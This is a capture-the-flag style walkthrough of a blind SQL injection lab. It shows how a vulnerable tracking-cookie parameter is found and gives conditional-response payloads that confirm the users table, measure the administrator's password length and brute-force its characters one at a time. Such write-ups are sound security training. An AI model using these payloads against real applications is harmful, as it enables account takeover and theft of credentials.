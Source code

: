 ### This senario:
 This lab contains a blind SQL injection vulnerability. The application uses a tracking cookie for analytics, and performs a SQL query containing the value of the submitted cookie.

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a "Welcome back" message in the page if the query returns any rows.

The database contains a different table called users, with columns called username and password. You need to exploit the blind SQL injection vulnerability to find out the password of the administrator user.

To solve the lab, log in as the administrator user. 

**************

We have table is ***users*** and Columns are [username,password] and username is ***administrator**


Okk we need to password for login on acount.

first we find the peremater .

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/3f039039-3a35-4753-9f3d-ce998180786f)


we found this vuln peremater here.

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/54cdcfc8-83b8-4f2d-a07e-151cd1a26e2f)

we used simple payload to sure from vuln.


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/acefacdb-7eee-45c6-b4bc-1ba6d7db0636)

Here 1!=0 so server given false result.

```
' AND (SELECT 'a' FROM users LIMIT 1)='a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/4aa495b8-88a6-4b72-a2a0-9ec40604cf3e)

Ok we have users table.

```
' AND (SELECT 'a' FROM users WHERE username='administrator')='a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/86abd2e4-9f51-4a2e-85b0-23be41231faa)

Ok we have username is administrator;

```
' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a
```

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/09ad5246-2eee-4976-81cb-dc7430d21785)

This payload for know how many char in password by ```length > 1``` is resutl true

we can use brute force to know this.

```
' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')>'0
```

or

```
' AND SUBSTRING((SELECT password FROM users WHERE username='administrator'),1,1)>'0
```

### 1
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/677e4a3e-9105-4224-96b4-6c4f7f27a199)

## 2
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b76015ee-aa02-4c31-88b7-5597578955c0)


## 3
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/fa6df2b4-efbf-438c-9078-28d4c65f8c54)

## 4
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/18bbf318-a7dc-48a5-a425-8c9d98936be5)

## 5 lastly
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8d73f1e1-6d6b-465e-a2a2-d5e458c220a9)

We have 20 char for password


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6f12b594-be18-4bdc-b8b2-aef6657db522)
This payload for brute force on first char, We will using intruder again.

## 1
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/bcdd0d74-9790-4901-b5c7-e1a5abbc3112)

##2
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8db78f92-f754-46d1-9cda-437c15debcd0)

## 3
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/b8b082d0-0a8a-4179-a070-8e2490a6ec8f)

## 4
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/8a5f6c9e-d6c7-4e2c-8096-a734cd548252)

## 5
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/c56e3e41-75e6-4b97-af05-1ffe46687336)
Wow We have the first char from **password** is ```f```

we again try on second char

![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/7e8701c2-51d7-491c-9c3c-9ac2a1eaafe0)

Wow We have the second char from **password** is ```f```


we again try on third char
![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/a7b25388-6a61-441a-83ed-61eb5f0a2c7a)


![image](https://github.com/4bo4yman/Web-Application-Penetration-Testing/assets/156849852/6fd7d326-b941-4a33-ba96-a0f76b00c201)



Wow Wow We have the third char from **password** is ```s``` 
Now password is ffs... , complete this.

We try again and again with change number of places's char to guess the full password.





























